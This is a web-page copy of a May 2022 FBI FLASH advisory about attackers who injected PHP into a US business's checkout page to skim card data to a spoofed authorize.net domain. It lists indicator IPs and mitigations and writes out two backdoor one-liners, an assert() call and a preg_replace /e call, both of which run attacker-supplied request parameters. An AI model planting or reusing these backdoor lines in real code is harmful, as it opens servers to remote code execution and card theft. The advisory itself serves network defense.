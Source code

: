 ```yaml
---
layout: default
title: . 5/16/2022 - Cyber Actors Scrape Credit Card Data from US Business’ Online Checkout Page and Maintain Persistence by Injecting Malicious PHP Code  
parent: FBI 
nav_order: 978071599 
---
```

<style>
.dont-break-out {
  /* These are technically the same, but use both */
  overflow-wrap: break-word;
  word-wrap: break-word;

  -ms-word-break: break-all;
  /* This is the dangerous one in WebKit, as it breaks things wherever */
  word-break: break-all;
  /* Instead use this non-standard one: */
  word-break: break-word;
}
</style>

<div class="dont-break-out" markdown="1">
This is the mobile-friendly web version of the [original article](https://www.aha.org/system/files/media/file/2022/05/fbi-flash-tlp-white-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-5-16-22.pdf).

<img src="https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code.png">

### 16 May 2022
{: .no_toc }
#### Flash Number
{: .no_toc }
### MC-000170-MW 
{: .no_toc }  

1. TOC
{:toc}

The following information is being provided by the FBI, with no guarantees or warranties, for potential use at the sole discretion of recipients in order to protect against cyber threats. This data is provided to help cyber security professionals and system administrators’ guard against the persistent malicious actions of cyber actors. This FLASH was coordinated with DHS-CISA.

This FLASH has been released TLP WHITE. Subject to standard copyright rules, TLP WHITE information may be distributed without restriction.

**WE NEED YOUR HELP!** If you identify any suspicious activity within your enterprise or have related information, please contact your local FBI Cyber Squad immediately with respect to the procedures outlined in the Reporting Notice section of this message.

***

# Cyber Actors Scrape Credit Card Data from US Business’ Online Checkout Page and Maintain Persistence by Injecting Malicious PHP Code    

## Summary

As of January 2022, unidentified cyber actors unlawfully scraped credit card data from a US business by injecting malicious PHP Hypertext Preprocessor (PHP) code into the business’ online checkout page and sending the scraped data to an actor-controlled server that spoofed a legitimate card processing server. The unidentified cyber actors also established backdoor access to the victim’s system by modifying two files within the checkout page. The FBI has identified and is sharing new indicators of compromise (IOCs), which may assist in network defense.

***

## Technical Details

Unidentified cyber actors began targeting a US business in September 2020 from three Internet protocol (IP) addresses: 80.249.207.19, 80.82.64.211, and 80.249.206.197. The actors inserted malicious PHP code into the business’s customized online checkout page, checkout.php, by altering the associated TempOrders.php file. The checkout page was modified with the following include()statement:

![Figure 1: Example include() statement](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-fig-1.png)
*Figure 1: Example include() statement*

include()statements allow developers to import PHP code from one file into another file, which decreases the number of files developers must modify to update their code. Malicious actors exploited this capability to insert the contents of TempOrders.php into the checkout cart_required_files.php file. This cart_required_files.php file contained a require_once() statement that is nearly identical to the include() statement, except that if the identified file cannot be found, a warning is shown and program execution continues.

![Figure 2: Example “require_once” function](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-fig-2.png)
*[Figure 2: Example “require_once” function]*

As of January 2022, the unidentified cyber actors used the require_once() function to call and execute the TempOrders.php file, which contained code used to scrape and exfiltrate customer data from the US business’ shopping cart to a victim-specific PHP file “file_name.php”: 

![Figure 3: Example code from TempOrders.php file identified on victim host](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-fig-3.png)
*Figure 3: Example code from TempOrders.php file identified on victim host*

The malicious code posts the customer’s payment information to a spoofed card processing domain, http://authorizen[.]net/, where the ‘n’ is added to impersonate or spoof http://authorize[.]net/, a legitimate card processing company’s domain. The unidentified cyber actors also established backdoor access to the business’ system by modifying two files.

First, the actors established a rudimentary back door by inserting the assert($_REQUEST['login']) function. This function is designed for debugging and when called executes code submitted as the HTTP request parameter “login”. Upon execution, the system downloads a fully functional P.A.S. webshell onto the affected company’s webserver

![Figure 4: Example of code used to establish a rudimentary back door](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-fig-4.png)
*Figure 4: Example of code used to establish a rudimentary back door*

Second, the actors inserted the PHP regular expression @preg_replace("/f/e",$_GET['u'],"fengjiao"), which is designed to insert and execute PHP code submitted as an HTTP request variable named “u”. 

![Figure 5: Example of HTTP request used to execute PHP code and enable the back door](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-fig-5.png)
*Figure 5: Example of HTTP request used to execute PHP code and enable the back door*

Using the described techniques, the actors downloaded two PHP Webshells, P.A.S. and b374, which were leveraged as backdoors for further exploitation.

***

## Indicators
The following Internet Protocol (IP) addresses and Uniform Resource Locators (URLs) were used
during vulnerability exploitation and/or data exfiltration:

![Table-1](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-table-1.png)

![Table-2](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-table-2.png)

![Table-3](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-table-3.png)

PHP Code: The PHP code below is an example of how the unidentified cyber actors modified the target company’s code. The first three lines, beginning with “$this”, are actual code from the company’s shopping cart, and the remaining lines, beginning with “curl” were added by the actors.

![Figure 6: Example of code used to modify the target’s shopping cart](https://statics.bsafes.com/images/publications/flash-2022-0516-cyber-actors-scrape-credit-card-data-from-us-business-online-checkout-page-and-maintain-persistence-by-injecting-malicious-php-code-fig-6.png)
*Figure 6: Example of code used to modify the target’s shopping cart*


***

## Recommended Mitigations:
- Update and patch all systems, to include operating systems, software, and any thirdparty code running as part of your website.
- Change default login credentials on all systems.
- Monitor requests performed against your e-commerce environment to identify possible malicious activity.
- Segregate and segment network systems to limit how easily cyber criminals can move from one to another.
- Secure all websites transferring sensitive information by using secure socket layer (SSL) protocol.
- Install third-party software/hardware from trusted sources. Coordinate with the manufacturer to ensure their security protocols prevent unauthorized access to data they store and/or process.
- Patch all systems for critical vulnerabilities, prioritizing timely patching of internetconnected servers for known vulnerabilities and software processing internet data, such as web browsers, browser plugins, and document readers.
- Actively scan and monitor web logs and web applications for unauthorized access, modification, and anomalous activities.
- Strengthen credential requirements and implement multifactor authentication to protect individual accounts.
- Conduct regular backups to reduce recovery time in the event of a compromise or cyber intrusion.
- Maintain an updated Incident Response Plan addressing cyber threat response.

***

## Reporting Notice
The FBI encourages recipients of this document to report information concerning suspicious or criminal activity to their local FBI field office. With regards to specific information that appears in this communication; the context, individual indicators, particularly those of a non- deterministic or ephemeral nature (such as filenames or IP addresses), may not be indicative of a compromise. Indicators should always be evaluated in light of your complete information security situation.

Field office contacts can be identified at www.fbi.gov/contact-us/field-offices. When available, each report submitted should include the date, time, location, type of activity, number of people, and type of equipment used for the activity, the name of the submitting company or organization, and a designated point of contact.

***

## Administrative Note
This product is marked TLP:WHITE. Subject to standard copyright rules, the information in this product may be shared without restriction.

<div style="background-color:lightblue; padding:20px" markdown="1">
<h3 style="text-align:center">Your Feedback on the Value of this Product Is Critical</h3>
Was this product of value to your organization? Was the content clear and concise? Your comments are very important to us and can be submitted anonymously. Please take a moment to complete the survey at the link below. Feedback should be specific to your experience with our written products to enable the FBI to make quick and continuous improvements to such products. Feedback may be submitted online here: https://www.ic3.gov/PIFSurvey

Please note that this survey is for feedback on content and value only. Reporting of technical information regarding FLASH reports must be submitted through your FBI Field Office .
</div>
</div>
